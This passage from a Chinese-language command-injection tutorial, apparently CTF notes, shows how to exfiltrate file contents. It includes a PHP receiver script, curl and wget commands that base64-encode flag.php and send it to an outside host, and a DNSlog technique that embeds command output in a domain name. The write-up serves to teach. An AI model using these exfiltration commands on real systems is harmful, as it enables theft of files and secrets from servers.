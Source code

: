 ```php
<?php
$data =$_GET['data'];
$f = fopen("flag.txt", "w");
fwrite($f,$data);
fclose($f);
?>
```

**(2).构造请求**
在目标服务器的测试点可以发送下面其中任意一条请求进行测试

```php
curl http://*.*.*.**/record.php?data=`cat flag.php|base64`
wget http://*.*.*.*/record.php?data=`cat flag.php|base64`
```

最终得到

![image-20211126153239952](image/命令执行/image-20211126153239952.png)Base64解码即可得到flag。



#### 4、通过dnslog带出数据

注意事项：

* 命令执行时要避免空格，空格会导致空格后面的命令执行不到；
* 将读取的文件命令用反引号``包含起来；
* 拼接的域名有长度限制。

利用命令：

```php
curl `命令`.域名
```

**（1）到dnslog官网上申请一个临时域名**

![image-20211126153728362](image/命令执行/image-20211126153728362.png)
